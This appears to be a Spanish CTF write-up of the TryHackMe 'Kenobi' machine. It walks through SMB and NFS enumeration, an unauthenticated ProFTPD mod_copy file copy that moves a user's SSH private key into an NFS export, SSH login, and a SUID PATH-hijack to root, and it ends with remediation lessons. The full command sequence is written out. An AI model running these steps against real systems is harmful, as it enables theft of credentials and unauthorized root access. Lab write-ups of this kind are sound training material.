

### Resumen Ejecutivo (The Overview)

- **Nombre de la máquina:** Kenobi (TryHackMe)
    
- **Dificultad:** Fácil/Media
    
- **Sistema Operativo:** Linux
    
- **Objetivo:** Obtener flag de usuario y flag de root.
    
- **Habilidades clave:** Enumeración de SMB, explotación de ProFTPD, manipulación de monturas NFS y escalada SUID.

**2. Reconocimiento (Reconnaissance)**
- **Captura de pantalla:**
    ![[Pasted image 20260320203208.png]]
    - nmap -sV -sC -p- (IP_Objetivo)
- **Análisis:** Puerto 80 html con 2 rutas importantes a tener en cuenta para recopialr información:
	- robots.txt
	- admin.html
	El puerto 445 (SMB) está abierto, lo que sugiere que podría haber recursos compartidos con información sensible

**3. Enumeración (servicios y como los usamos para explotar)**
- **Port 22 (SSH):**
    - **Análisis:** Servicio de administración remota. Aunque inicialmente no tenemos credenciales, se convierte en nuestro **punto de entrada principal** una vez que logramos extraer la clave privada (`id_rsa`) del usuario `kenobi` mediante el abuso de otros servicios.
        
- **Port 80 (HTTP):**
    - **Análisis:** Servidor web estándar. Al explorarlo, no encontramos vulnerabilidades directas en la aplicación, pero nos sirve para confirmar la existencia del usuario y la estructura del sitio. Es una distracción común o un vector secundario en esta máquina.
        
- **Port 111 (RPCBIND):**
    - **Análisis:** Este servicio es el "directorio" para servicios RPC. En este escenario, es fundamental porque nos indica que el servidor está utilizando **NFS (Network File System)**. Es el precursor necesario para identificar qué carpetas del sistema están compartidas de forma insegura.
        
- **Ports 139/445 (SMB/SAMBA):**
    - **Análisis:** Protocolo de intercambio de archivos en red. Al realizar una enumeración manual (con `smbclient` y `enum4linux`), descubrimos un recurso compartido llamado `anonymous` con permisos de lectura para invitados. Aquí obtuvimos el archivo `log.txt`, que reveló rutas críticas del sistema y versiones de software (ProFTPD).
        
- **Port 2049 (NFS):**
    - **Análisis:** El vector de **post-explotación inicial**. Al combinar la información del puerto 111 y el archivo de log de Samba, descubrimos que el directorio `/var` estaba exportado. Esto nos permitió montar la unidad remotamente y acceder a archivos que ProFTPD movió por nosotros.
        
- **Port 35573 (Mountd):**
    - **Análisis:** Es un servicio auxiliar de NFS que gestiona las peticiones de montaje. Aunque no se ataca directamente, su presencia confirma que el servidor está configurado para permitir que clientes externos monten sus sistemas de archivos, lo cual es la vulnerabilidad de diseño que explotamos.
### 4. Explotación (Weaponization & Intrusion)

usaremos el servicio SAMBA para conseguir la información de la victima, para ello primero veremos con nmap, la capacidad de ejecutarse para automatizar una amplia variedad de tareas de red mediante un script.

("***nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP_ATACANTE***")

![[Pasted image 20260320222218.png]]

En la mayoría de las distribuciones de Linux, smbclient ya está instalado. Inspeccionemos una de las acciones.

**smbclient //10.128.165.212/anónimo**

Usando la máquina, nos vamos a conectar al recurso compartido de red de la máquina.
![[Pasted image 20260320222644.png]]
ls
![[Pasted image 20260320222733.png]]

necesitaremos descargar el archivo asi que lo haremos mediante el siguiente comando: 
- **smbclient //IP_MAQUINA/anonymous -c "get log.txt"**
![[Pasted image 20260320223030.png]]
![[Pasted image 20260320223155.png]]
El escaneo anterior del puerto nmap habrá mostrado el puerto 111 ejecutando el servicio rpcbind. Este es solo un servidor que convierte el número de programa de llamada a procedimiento remoto (RPC) en direcciones universales. Cuando se inicia un servicio RPC, le indica a rpcbind la dirección en la que está escuchando y el número de programa RPC que está preparado para servir. 

En nuestro caso, el puerto 111 es acceso a un sistema de archivos de red. Utilicemos nmap para enumerar esto.

- **nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <IP_MAQUINA>**
![[Pasted image 20260320223410.png]]
aqui vemos /var nos será util para seguir con la escalada de privilegios

**ProFTPD 1.3.5**. Esta versión es vulnerable al uso del módulo `mod_copy`, que permite a usuarios no autenticados copiar archivos de un lugar a otro del servidor mediante los comandos `SITE CPFR` y `SITE CPTO`.

**Paso 1: Manipulación de archivos vía ProFTPD** Utilicé `netcat` para conectar al servicio FTP y mover la clave privada SSH del usuario (`id_rsa`) a una ruta que sabíamos, por la enumeración previa, que era accesible vía NFS:
![[Pasted image 20260320223658.png]]
Podemos utilizar searchsploit para encontrar exploits para una versión de software en particular.

Searchsploit es básicamente solo una herramienta de búsqueda de línea de comandos para exploit-db.com.
![[Pasted image 20260320223901.png]]

http://www.proftpd.org/docs/contrib/mod_copy.html

nc 10.129.178.208 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
![[Pasted image 20260320224144.png]]
_Análisis:_ Con esto, hemos movido la "llave" del servidor a un directorio temporal (`/var/tmp`) que el sistema exporta a través de NFS.

**Paso 2: Exfiltración mediante montaje NFS** Aprovechando la configuración permisiva de NFS, monté el directorio `/var` de la máquina víctima en mi máquina local:

- sudo mkdir /mnt/kenobiNFS
- sudo mount 10.129.178.208:/var /mnt/kenobiNFS
- cp /mnt/kenobiNFS/tmp/id_rsa .

![[Pasted image 20260320224957.png]]
ahora hacemos un ls para localizar /tmp 
- **ls -la /mnt/kenobiNFS**
![[Pasted image 20260320225221.png]]
¡Ahora tenemos un soporte de red en nuestra máquina implementada! Podemos ir a/var/tmp y obtener la clave privada y luego iniciar sesión en la cuenta de Kenobi.

**Paso 3: Acceso inicial (User Flag)** Tras ajustar los permisos de la llave y lidiar con las restricciones de algoritmos modernos de SSH, logré el acceso:
- cp /mnt/kenobiNFS/tmp/id_rsa .
- sudo chmod 600 id_rsa
- ssh -i id_rsa kenobi@IP_MAQUINA

![[Pasted image 20260320225340.png]]

![[Pasted image 20260320225559.png]]

### 5. Escalada de Privilegios (Privilege Escalation)

Con acceso como el usuario `kenobi`, el siguiente objetivo fue elevar privilegios a `root`. Realicé una búsqueda de binarios con el bit **SUID** activado (archivos que se ejecutan con los permisos del propietario, en este caso, root).

![[Pasted image 20260320225621.png]]

**Identificación del binario inusual:**
- find / -perm -u=s -type f 2>/dev/null

![[Pasted image 20260320225739.png]]
Entre los resultados estándar de Linux, destacó `/usr/bin/menu`. Al analizar las cadenas de texto del binario con `strings`, observé que ejecutaba comandos de sistema como `curl` sin utilizar la **ruta absoluta** (ej. `curl` en lugar de `/usr/bin/curl`).

**Explotación: Path Hijacking** Este es un error crítico de programación. Manipulé la variable de entorno `$PATH` para que, cuando el binario `menu` buscara `curl`, ejecutara en su lugar una versión maliciosa creada por mí que invoca una shell:

1. Creación del falso `curl`:
- cd /tmp
- echo /bin/sh > curl
- chmod 777 curl
**2. Modificación del PATH y ejecución:**
- export PATH=/tmp:$PATH
- /usr/bin/menu
Al seleccionar la opción que llamaba a `curl`, el sistema ejecutó mi script de `/tmp` con privilegios de root, otorgándome una shell completa.
- 1
- id
- cat /root/root.txt
![[Pasted image 20260320230058.png]]
Y logramos la root flag!

![[Pasted image 20260320230155.png]]
### 6. Lecciones Aprendidas (Remediation)

1. **Principio de Menor Privilegio en FTP:** El servicio ProFTPD no debería permitir el uso de comandos `SITE` a usuarios no autenticados. Se recomienda actualizar a una versión superior a la 1.3.5 o deshabilitar `mod_copy`.
    
2. **Configuración de Red (NFS/SMB):** Nunca se deben exportar directorios raíz o sensibles (como `/var`) con permisos de montado para cualquier IP de la red.
    
3. **Seguridad en el Desarrollo (S-SDLC):** Los desarrolladores deben usar siempre rutas absolutas en las llamadas al sistema dentro de binarios SUID para prevenir ataques de _Path Hijacking_.

**DIAGRAMA DE FLUJO - KENOBI - ATAQUE**

